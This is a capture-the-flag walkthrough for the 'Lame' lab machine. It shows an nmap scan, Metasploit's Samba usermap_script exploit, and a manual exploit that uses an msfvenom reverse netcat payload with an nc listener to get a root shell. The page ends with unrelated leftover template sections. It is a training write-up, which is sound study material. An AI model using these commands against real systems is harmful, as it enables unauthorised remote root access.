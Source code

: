 # Lame - 10.10.10.3
![](/images/lame/1. lame.png "Lame Info Card")

Contents:

1. TOC
{:toc}

<p>&nbsp;</p>
=============================================
## Scanning and Enumeration
=============================================
<p>&nbsp;</p>

We start with a basic nmap scan to see what ports are open:

    nmap -A -T4 10.10.10.3

![](/images/lame/2. nmap.png "nmap results")
![](/images/lame/3. nmap_2.png "nmap results")

So we have ftp, ssh, and smb open.  Normally it would be worth exploring ftp to see if we can access any files that may contain ssh creds since ssh is open as well.  From what we can tell so far, this appears to be some sort of Debian-based Linux machine.

In this case though we see a Unix Samba version - Samba 3.0.20, so let's try searching for that.

![](/images/lame/4. google_samba_exploit.png "Google: Samba 3.0.20-debian exploit")

So we have a rapid7 (metasploit) result as well as an exploitdb result.  Let's open both:

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

https://www.exploit-db.com/exploits/16320

<p>&nbsp;</p>
=============================================
## Exploitation using Metasploit
=============================================
<p>&nbsp;</p>

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

The rapid7 website has the following instructions for using the metasploit module:

![](/images/lame/5. metasploit options.png "rapid7 website")

So let's try them.  Load up msfconsole and follow the steps:

    use exploit/multi/samba/usermap_script

    show options

![](/images/lame/6. msf_1.png "metasploit")

    set rhosts 10.10.10.3

    show targets

![](/images/lame/7. msf_2.png "metasploit")


We have set the remote host (rhosts, aka the target), and the only target available is Automatic. Let's try and run it.

    run

![](/images/lame/8. msf_3.png "metasploit")

[+] Success!  We are root.  

Notice this shell does not give a prompt after the initial connection.  After you see the “Command shell session 1 opened...”  you should have a shell and be able to enter commands.

Let's go get some flags.

    cat /home/makis/user.txt

    cat /root/root.txt

![](/images/lame/9. user_flag.png "user flag")

![](/images/lame/10. root_flag.png "root flag")

And there we have our user and root flags.

<p>&nbsp;</p>
=============================================
## Manual Exploitation
=============================================
<p>&nbsp;</p>

https://www.exploit-db.com/exploits/16320

![](/images/lame/11. exploit_db.png "exploit-db entry")

In this case, the exploit-db entry is the Metasploit module.  Let's go back to Google and try to find something elsewhere:

![](/images/lame/12. google.png "google for the win")

Let's try this one. It contains a python script we should be able to modify to our needs.

![](/images/lame/13. github_exploit.png "exploit on github")

Click on the “Raw” and then copy/paste the code into your own python file. I'm calling mine “samba-exploit.py”

I'm using gedit, but feel free to use your text editor of choice. In your samba-exploit.py file, check out the following section:

![](/images/lame/14. edit_code.png "initial shellode")

Here we need to generate our own shellcode and then use it to replace all the "buf =" and "buf +=" lines.  Let's get to it:

    msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.24 LPORT=9997 -f python

Make sure you use your own IP address for the LHOST. 

This command may take a few moments to run and generate the shellcode.

![](/images/lame/15. msfvenom.png "msfvenom for shellcode")

Now copy/paste the generated shellcode into your samba-exploit.py:

![](/images/lame/16. edit_shellcode.png "editing the shellcode")

Notice I also replaced the comment above the shellcode with the actual msfvenom command I used. This is good practice if I ever need to refer back to this code.

Next, save the samba-exploit.py file and then chmod +x it to make it executable, then we can try and run it with no options:

    chmod +x samba-exploit.py

    ./samba-exploit.py

![](/images/lame/17. chmod.png "chmod the script")

Looks simple - just add the IP address of the target.  First though we need to set up our listener to catch the callback.  In a separate terminal window, run:

    nc -lvnp 9997   

Note: This port must match whatever port number your chose for LPORT= in your shellcode

![](/images/lame/18. nc_listen.png "listener setup")

Now in the first terminal window we can run the exploit!

    ./samba-exploit.py 10.10.10.3

![](/images/lame/19. samba_exploit.png "execute the exploit")

This will appear to hang, that is normal.  Over in your second terminal window with the nc listener you should see:

![](/images/lame/20. nc_connect.png "nc reverse shell connection")

Notice in the above I already ran the “whoami” command...and we are root!  Success!

Let's go get some flags:

![](/images/lame/21. flags.png "flags")

And there you have it, our user and root flags.


<p>&nbsp;</p>
=============================================
## Basic formatting
=============================================
<p>&nbsp;</p>

You can use *italics*, **bold**, `code font text`, and create [links](https://www.markdownguide.org/cheat-sheet/). Here's a footnote [^1]. Here's a horizontal rule:

<p>&nbsp;</p>
=============================================
## Images
=============================================
<p>&nbsp;</p>

![rax logo](/images/rax_intel.jpg)

<p>&nbsp;</p>
=============================================
## Code
=============================================
<p>&nbsp;</p>
